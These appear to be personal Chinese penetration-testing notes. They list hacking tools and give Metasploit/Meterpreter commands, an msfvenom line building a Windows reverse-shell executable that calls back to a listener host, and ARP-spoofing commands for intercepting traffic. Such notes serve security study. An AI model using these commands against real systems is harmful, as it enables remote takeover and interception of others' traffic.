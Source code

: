 #渗透ceshi

---

漏洞发布网站
 
https://www.seebug.org/

https://www.exploit-db.com/

---

Firefox下

    Firebug，调试js，HTTP请求响应观察，Cookie，DOM树观察等；GreaseMonkey，自己改了个Cookie修改脚本，其他同学可以用这款：Original Cookie Injector for Greasemonkey；Noscript，进行一些js的阻断；AutoProxy，翻墙必备；

Chrome下

    F12打开开发者工具，功能==Firebug+本地存储观察等；SwichySharp，翻墙必备；Cookie修改脚本，自己写了一个Chrome扩展（已开源：Cookie利用神器：CookieHacker），其他同学可以自己到Chrome扩展搜个好用的；

前端渗透工具

    

HTTP代理工具

    Fiddler，即可，不用再寻找其他的了，watcher插件漏洞
    
    Burp Suite，HTTP代理，还有爬虫、漏洞扫描、渗透、爆破等功能

漏洞扫描工具

    AWVS，不仅漏扫方便，
    
    Python自写脚本/工具
    
    Nmap，绝对不仅仅是端口扫描,脚本

漏洞利用

    sqlmap，SQL注入利用
    
    Metasploit，主机渗透框架，；
    
    Hydra，爆破必备；

抓包工具

    Wireshark，抓包必备；tcpdump，Linux下命令行抓包，结果可以给Wireshark分析；

大数据平台

    ZoomEye，知道创宇开放的一个网络空间搜索引擎，搜搜组件就知道：ZoomEye（钟馗之眼），可以认为我在广告；SHODAN， 老外开放的一个网络空间搜索引擎，搜搜主机设备就知道：SHODAN – Computer Search Engine；Google，：）

熟练Linux众多命令+Vim

---

# Metasploit

---

search cve:2009 type:exploit app:client

info 展示相关信息

show advanced 列出所有高级配置

check 检车目标是否选定渗透攻击存在相应安全漏洞


---

# Metgetpid

注入进程　migrate 

上传文件  　upload　　

下载文件　　 download 

session -l 列出可用的交互会话

session -i number 选定会话

获取最高权限  sysinfo getsystem 

---
# msfvenom 

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

---

# Arp

apt install dsniff ssldump

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0
